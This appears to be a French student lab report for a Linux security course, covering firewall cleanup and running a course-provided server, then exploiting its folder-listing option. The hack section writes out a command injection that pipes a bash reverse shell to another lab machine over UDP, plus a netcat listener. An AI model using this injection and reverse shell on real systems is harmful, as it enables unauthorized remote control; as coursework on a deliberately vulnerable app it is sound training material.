 # linux-10-11

0. Prérequis

🌞 Boom ça commence direct : je veux l'état initial du firewall

```
[hugo@efrei-xmg4agau1 ~]$ systemctl status firewalld
● firewalld.service - firewalld - dynamic firewall daemon
     Loaded: loaded (/usr/lib/systemd/system/firewalld.service; enabled; preset: enabled)
     Active: active (running) since Tue 2024-09-10 04:14:38 EDT; 8min ago
       Docs: man:firewalld(1)
   Main PID: 703 (firewalld)
      Tasks: 2 (limit: 48922)
     Memory: 41.8M
        CPU: 627ms
     CGroup: /system.slice/firewalld.service
             └─703 /usr/bin/python3 -s /usr/sbin/firewalld --nofork --nopid

Sep 10 04:14:37 localhost systemd[1]: Starting firewalld - dynamic firewall daemon...
Sep 10 04:14:38 localhost systemd[1]: Started firewalld - dynamic firewall daemon.
```

```
[hugo@efrei-xmg4agau1 ~]$ sudo firewall-cmd --list-services
[sudo] password for hugo:
cockpit dhcpv6-client ssh
```

```
[hugo@efrei-xmg4agau1 ~]$ sudo firewall-cmd --permanent --remove-service=cockpit
success
[hugo@efrei-xmg4agau1 ~]$ sudo firewall-cmd --permanent --remove-service=dhcpv6-client
success
[hugo@efrei-xmg4agau1 ~]$ sudo firewall-cmd --reload
success
[hugo@efrei-xmg4agau1 ~]$ sudo firewall-cmd --list-services
ssh
```

🌞 Fichiers /etc/sudoers /etc/passwd /etc/group dans le dépôt de compte-rendu svp !

/etc/sudoers
```
## Allows people in group wheel to run all commands
%wheel  ALL=(ALL)       ALL
```
/etc/passwd
```
hugo:x:1000:1000:hugo:/home/hugo:/bin/bash
```
/etc/group
```
wheel:x:10:hugo
```

I. Partie 1 : Host & Hack

🌞 Télécharger l'application depuis votre VM
```
[hugo@efrei-xmg4agau1 ~]$ curl -O https://gitlab.com/it4lik/b3-csec-2024/-/raw/main/efrei_server
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 7044k  100 7044k    0     0  8718k      0 --:--:-- --:--:-- --:--:-- 8707k
```

```
[hugo@efrei-xmg4agau1 ~]$ ls
efrei_server
[hugo@efrei-xmg4agau1 ~]$ chmod +x efrei_server
```

🌞 Lancer l'application efrei_server

```
[hugo@efrei-xmg4agau1 ~]$ LISTEN_ADDRESS=192.168.56.101 ./efrei_server
Warning: You should consider setting the environment variable LOG_DIR. Defaults to /tmp.
Server started. Listening on ('192.168.56.101', 8888)...
```
🌞 Prouvez que l'application écoute sur l'IP que vous avez spécifiée
```
[hugo@efrei-xmg4agau1 ~]$ ss -tuln | grep 8888
tcp   LISTEN 0      100    192.168.56.114:8888      0.0.0.0:*
```
2. Prêts
   
🌞 Se connecter à l'application depuis votre PC

```
hugo@efrei-xmg4agau1 ~$ nc 192.168.56.114 8888
Hello ! Tu veux des infos sur quoi ?
1) cpu
2) ram
3) disk
4) ls un dossier

Ton choix (1, 2, 3 ou 4) :
```

3. Hackez

🌞 Euh bah... hackez l'application !

Du côté client, on constate qu'en sélectionnant l'option 4, il est possible de choisir un dossier à lister avec la commande ls, puis d'injecter une commande via un pipe. Ainsi, nous injectons un reverse shell en bash et configurons un serveur d'écoute sur une autre machine

```
   Ton choix (1, 2, 3 ou 4) : 4
Exécuter la commande ls vers le dossier : /etc | sh -i >& /dev/udp/192.168.56.115/4242 0>&1
```
```
nc -u -lvp -4242
```






























